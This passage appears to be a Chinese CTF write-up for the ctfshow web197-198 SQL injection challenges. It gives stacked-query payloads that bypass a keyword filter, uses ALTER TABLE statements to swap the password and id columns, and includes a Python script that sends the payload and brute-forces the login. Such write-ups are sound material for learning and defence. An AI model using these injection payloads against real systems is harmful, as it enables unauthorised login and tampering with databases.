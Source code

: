 payload:

```
username:    1;select(1);
pass:        1
```

## web197-198~alert修改字段,show tables;

> ```
> if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

`update`不能使用了。

想插入数据但是过滤了`into`

现在没有长度限制，没有过滤空格，不能`select`、`update`、`insert` 

那就只能`alter`了。

* ALTER TABLE 语句用于在已有的表中添加、修改或删除列。

那我们可以利用`alter` 修改字段名，把 `id`  和  `pass` 对调。

```
username:   0;alter table ctfshow_user change column `pass` `a` varchar(255);alter table ctfshow_user change column `id` `pass` varchar(255);alter table ctfshow_user change column `a` `id` varchar(255)
pass:       数字自增测试
# 注意用户名第一次填 payload,之后就只填 0 
```

这里为甚么用户名使用0，因为数据表里刚开始测试时候，用户名为0 时，密码错误，说明有这个用户名。

写个脚本：

```python
# Author: yanmie

import requests

url = "http://9c929736-5b1e-4098-a346-b84a2d3e3509.chall.ctf.show/api/"
i = 0

while True:
    i += 1
    if i==1:
        data = {
            "username" : "0;alter table ctfshow_user change column `pass` `a` varchar(255);alter table ctfshow_user change column `id` `pass` varchar(255);alter table ctfshow_user change column `a` `id` varchar(255)",
            "password" : 0,
        }
        response = requests.post(url=url,data=data)
    else:
        data = {
            "username" : 0,
            "password" : {i}
        }
        response = requests.post(url=url,data=data)
        if "登陆成功" in response.json()['msg']:
            print(response.text)
            break
```
